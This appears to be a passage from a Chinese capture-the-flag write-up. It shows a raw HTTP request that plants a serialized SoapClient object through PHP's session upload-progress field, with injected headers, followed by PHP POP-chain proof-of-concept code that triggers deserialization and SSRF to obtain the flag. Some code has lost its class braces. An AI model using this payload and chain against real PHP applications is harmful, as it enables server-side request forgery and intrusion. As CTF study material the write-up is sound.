1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 POST /index.php HTTP/1.1 Host: 132.232.75.90 Content-Length: 526 Cache-Control: max-age=0 Origin: http://192.168.3.19 Upgrade-Insecure-Requests: 1 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKzdeUKO2QjByVOSs User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3 Referer: http://192.168.3.19/upload/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=test2 Connection: close ------WebKitFormBoundaryKzdeUKO2QjByVOSs Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS" |O:10:"SoapClient":5:{s:3:"uri";s:4:"aaab";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:15:"_stream_context";i:0;s:11:"_user_agent";s:58:"wupco X-Forwarded-For:127.0.0.1 Cookie:user=xZmdm9NxaQ==";s:13:"_soap_version";i:1;} ------WebKitFormBoundaryKzdeUKO2QjByVOSs Content-Disposition: form-data; name="file"; filename="1.txt" Content-Type: text/plain ------WebKitFormBoundaryKzdeUKO2QjByVOSs--
此时session_id为test2已经存入了序列化后的SoapClient类
接下来，编写POP链的POC：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 <?php class bb public $mod1; public $mod2; public function __construct () { $this ->mod1 = new aa(); } } class aa public $mod1; public $mod2 = []; public function __construct () { $this ->mod2['test2' ] = new cc(); } } class cc public $mod1; public $mod2; public $mod3; public function __construct () { $this ->mod3 = new ee(); $this ->mod2 = &$_SESSION['a' ]; $this ->mod1 = "fuck" ; } } class ee public $str1; public $str2; public function __construct () { $this ->str1 = new dd(); $this ->str2 = "getflag" ; } } class dd public $name; public $flag; public $b; public function __construct () { $this ->b = "call_user_func" ; $this ->flag = "Get_flag" ; } } $b = new bb(); echo serialize($b);
最后访问se.php，将sessionid替换为test2 ，并传入POC触发反序列化SoapClient进行ssrf，获得flag